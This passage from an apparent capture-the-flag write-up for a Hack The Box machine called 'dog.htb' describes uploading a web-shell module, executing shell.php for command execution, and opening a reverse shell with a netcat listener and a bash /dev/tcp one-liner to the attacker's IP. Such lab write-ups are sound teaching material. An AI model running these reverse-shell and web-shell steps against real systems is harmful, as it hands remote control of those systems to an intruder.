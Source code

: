 Next we need to convert `shell.zip` to a `.tar.gz` as the webpage suggests.

```
unzip shell.zip -d shell
tar -czf shell.tar.gz shell
```

![alt text](images/image-13.png)

After successfully uploading the module, we can browse to the webpage `http://dog.htb/modules`that stores all the modules.

Inside the directory we can find our shell.php and execute it.

![alt text](images/image-14.png)

By executing `shell.php`, a remote code execution shell will spawn, where we can run system commands. In this case we need access to a reverse shell. For this purpose we setup a listener `nc -lvnp 8888` and execute the following command `bash -c 'bash -i >& /dev/tcp/10.10.14.76/8888 0>&1'` as shown by the following image.

![alt text](images/image-15.png)

After executing our reverse shell command we get response on our listener and finally have access to the system.

![alt text](images/image-16.png)
